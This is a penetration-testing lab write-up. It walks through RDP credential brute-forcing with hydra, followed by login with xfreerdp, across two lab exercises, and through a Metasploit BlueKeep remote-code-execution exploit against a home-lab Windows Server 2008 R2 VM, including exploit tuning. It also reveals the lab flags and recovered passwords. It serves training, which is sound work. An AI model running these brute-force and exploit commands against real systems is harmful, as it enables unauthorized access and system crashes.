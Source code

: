 # 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> - Target IP: `10.4.18.131`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.18.131

nmap -sV 10.4.18.131
```

```bash
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

![](windows-attacksassets/image-20230314205710077.png)

- Use Metasploit [rdp_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp_scanner/) module to check if port `3333` is running RDP.

```bash
msfconsole
```

```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.4.18.131
set RPORT 3333
run
```

![Metasploit rdp_scanner](windows-attacksassets/image-20230314210003571.png)

> 📌 The **RDP is exposed on target port `3333`**, and not on the default port `3389`.

### RDP Brute-force

- Try `hydra` to find valid username and password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3333
```

```bash
[3333][rdp] host: 10.4.18.131   login: sysadmin   password: samantha
[3333][rdp] host: 10.4.18.131   login: demo   password: victoria
[3333][rdp] host: 10.4.18.131   login: auditor   password: elizabeth
[3333][rdp] host: 10.4.18.131   login: administrator   password: qwertyuiop
```

![hydra](windows-attacksassets/image-20230314210954773.png)

- `freerdp` cannot be used in this lab
- Use **`xfreerdp`** to connect to target via RDP

```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3333
```

![xfreerdp RDP connected](windows-attacksassets/image-20230314211206593.png)



<details>
<summary>Reveal Flag: 🚩</summary>


`port-number-3333`

![](windows-attacksassets/image-20230314211258633.png)



</details>

------

## Lab 2 - BlueKeep (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `RDP` service on default port `3389`.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool:
> - Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
> - ❗ **Targeting Kernel space memory and apps can cause system crashes.**

- *The attacker can remotely execute arbitrary code by gaining access to a chunk of kernel memory, without authentication.*
- BlueKeep **PoC**'s (**P**roof **o**f **C**oncepts) and exploits could be **malicious** in nature, use only verified exploit code and modules.

![Metasploit BlueKeep modules](windows-attacksassets/image-20230314213952365.png)

- Target RDP activated:

![](windows-attacksassets/image-20230314213648795.png)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](windows-attacksassets/image-20230314175805319.png)

> - 📌 RDP Port `3389` is open

### Exploitation

```bash
msfconsole
```

```bash
search bluekeep
use 0 # Module auxiliary/scanner/rdp/cve_2019_0708_bluekeep ID
set RHOSTS 192.168.31.131
exploit
```

![Metasploit cve_2019_0708_bluekeep](windows-attacksassets/image-20230314214843974.png)

```bash
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
exploit
```

![](windows-attacksassets/image-20230314222031244.png)

![Metasploit cve_2019_0708_bluekeep_rce](windows-attacksassets/image-20230314220044989.png)

![Win Server 2008 R2 crash](windows-attacksassets/image-20230314222843050.png)

> ❗ **Kernel CRASH can be caused by this exploit, so pay attention on production environment** ❗

#### Adjusting the exploit

- To make the exploit work, I've used the [Pentest-Tools blog on BlueKeep](https://pentest-tools.com/blog/bluekeep-exploit-metasploit) and [Alexandre Vieira blog post](https://alexandrevvo.medium.com/testing-bluekeep-cve-2019-0708-metasploit-module-on-windows-7-ef3f28217b7b).
- On WinServer2008 target, open `regedit`
  - `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`
  - Set `fDisableCam` reg key on `0`

![](windows-attacksassets/image-20230314222313593.png)

#### Finding the NPP

- To make the exploit work, it needs the correct GROOMBASE value which is the start address of the [Non Paged Pool area](https://docs.microsoft.com/en-us/windows/win32/memory/memory-pools) (NPP).
- The NPP address can be extracted from a memory dump of the target machine.
- In VMWare, take a snapshot of the target virtual machine (Win Server 2008 R2).
  - Download the [vmss2core tool](https://labs.vmware.com/flings/vmss2core;)
  - From the VM (virtual machine) folder copy the `.vmem` and `.vmsn` files to the `vmss2core` tool folder
  - Run the tool to generate a `memory.dmp` file

```bash
.\vmss2core-sb-8456865.exe -W "WinSrv_2008_R2_x64-Snapshot1.vmsn" "WinSrv_2008_R2_x64-Snapshot1.vmem"
```

- Run [WinDbg](https://apps.microsoft.com/store/detail/windbg-preview/9PGJGD53TN86?hl=en-us&gl=us) and open the `memory.dmp` file
  - Run `!polfind a` to get a message
  - That is the start of address of Non Page Pool, in this case **`fffffa8018c08000`**

![WinDbg](windows-attacksassets/image-20230314224629902.png)

- Edit the exploit and set the `GROOMBASE` variable if not already set.
  - In my case it is already set as the above address, for the `2008 R2 (6.1.7601 x64 - VMWare 15.1)` target number `5`.

![](windows-attacksassets/image-20230314225313177.png)

- Save the exploit file and run `reload_all` in the Metasploit interface.
- Set the GROOMSIZE to 50.

```bash
msfconsole
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
set GROOMSIZE 50
exploit
```

 ![BlueKeep RCE Success](windows-attacksassets/image-20230314225747271.png)

------

## Lab 3 (Extra)

> [Windows RDP: Dictionary Attack](https://attackdefense.com/challengedetails?cid=1954)
>
> - Target IP: `10.4.22.41`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

```bash
nmap 10.10.4.22.41

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.22.41 -s 3389
```

![](windows-attacksassets/image-20230314235059534.png)

```bash
xfreerdp /u:administrator /p:bubbles /v:10.4.22.41
# default port is 3389
```

<details>
<summary>Reveal Flag: 🚩</summary>



`sysadmin-stephaie-123`

![](windows-attacksassets/image-20230314235250789.png)



</details>

------

